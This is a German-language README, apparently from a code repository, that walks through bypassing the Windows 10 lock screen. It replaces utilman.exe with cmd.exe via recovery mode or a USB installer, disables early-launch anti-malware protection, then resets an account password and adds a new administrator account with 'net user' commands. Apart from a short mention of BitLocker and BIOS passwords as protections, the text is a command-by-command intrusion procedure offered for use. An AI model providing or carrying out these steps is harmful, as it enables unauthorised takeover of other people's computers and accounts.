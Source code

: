 # Windows-Sperrbildschirm hacken

## Passwort eines Windows-Benutzerkontos vom Sperrbildschirm aus ändern, um Zugang zum Account zu erhalten.

### Wichtig:
Online-Benutzerkonten oder Geräte, die Benutzerkonten aus einer Domäne nutzen, könnten zu Problemen führen.
Außerdem schützen Sicherheitsmaßnahmen, wie z.B. das Verschlüsseln der Fesplatte über den [Windows-BitLocker](https://de.wikipedia.org/wiki/BitLocker#:~:text=BitLocker%20ist%20eine%20propriet%C3%A4re%20Festplattenverschl%C3%BCsselung,mit%20dieser%20Software%20Daten%20gesch%C3%BCtzt.), vor diesem "Hack".
Auch ein BIOS/UEFI Passwort schützt u.a. davor, die "Bootreihenfolge" zu ändern, womit die Möglichkeiten, über einen USB-Stick zu booten, ggf. erschwert werden.


Die Anleitung wurde ausschließlich auf Windows 10 getestet !


-----------------------------------------------------------------------------


1.1. erste Option

- a) Um in die `erweiterten Optionen` zu gelangen: `Shift Taste drücken`, während auf den `Neustart-Knopf` unten links im Anmeldefenster gedrückt wird.
- b) In den `erweiterten Optionen` zu `Problembehandlung` navigieren, dann zu `erweiterte Optionen` und die `Eingabeaufforderung` öffnen.


### Die erste Option ist leider nicht immer möglich, daher kann auch Option 2 genutzt werden.


1.2. zweite Option

- a) Daher über einen `win10 Boot USB Stick` booten, anstatt windows zu installieren, jedoch dort mit der Tastenkombination `Shift und F10` CMD öffnen.
- b) Einen Win10-Boot-/ Installations-USB-Stick kann mit dem [Media Creation Tool](https://www.microsoft.com/de-de/software-download/windows10) erstellen werden.


-----------------------------------------------------------------------------


- Das Laufwerk, wo Windows installiert ist, muss angesprochen werden, also z.B. `c:/` (meistens ist es das installations Laufwerk `c:/`).
  
- Befehle, die nacheinander eingegeben werden müssen:		
								
								c:

								cd Windows\System32
							
								rename utilman.exe utilman.exe.lol

								copy cmd.exe utilman.exe


- c) Komandozeile (cmd) mit `$ exit` oder dem Kreuz oben rechts in der Ecke schließen.

- d) Installation beenden (abbrechen)

- f) Der PC wird neu gestartet, dabei den USB Stick entfernen, damit der Sperrbildschirm erscheint.


-----------------------------------------------------------------------------


1.3. Schutz vor Antischadsoftware-Frühstarts deaktivieren

- In die automatischen Reparatureinstellungen von win 10 kommen: `Shift Taste und Neustart-Knopf unten rechts auf dem Sperbildschirm gleichzeitig drücken.`

- Zuerst zu `Problembehandlung` dann zu `erweiterten Optionen` und `Starteinstellungen` auswählen.

- Anschließend auf `Neu starten` klicken.

- `Option 8` auswählen (Schutz des Antischadsoftware-Frühstarts deaktivieren)

- Unten rechts auf die erleichterte Bedienung klicken und es sollte sich die Kommandozeile öffnen.


-----------------------------------------------------------------------------


1.4. Passwort ändern

- Um das Passwort nun in CMD auf dem Sperrbildschirm zu ändern:
```
$ net user "(hier kommt der name des Benutzers rein und die Anführungszeichen nicht vergessen)" *
```
- (Beispiel: `$ net user "User" *` )


- Nun das neue Passwort eingeben !


-----------------------------------------------------------------------------


1.5.  Einen neuen Benutzer anlegen

```
$ net user DEN BENUTZERNAMEN HIER REIN SCHREIBEN HIER PASSWORT SCHREIBEN /add    

```
- (Beispiel: `$ net user Hacker 1234 /add`)


Den hinzugefügten Nutzer zum Admin machen:
```
$ net localgroup administrators HIER DER BENUTZERNAME /add
```
- (Beispiel: `$ net localgroup administrators Hacker /add`)

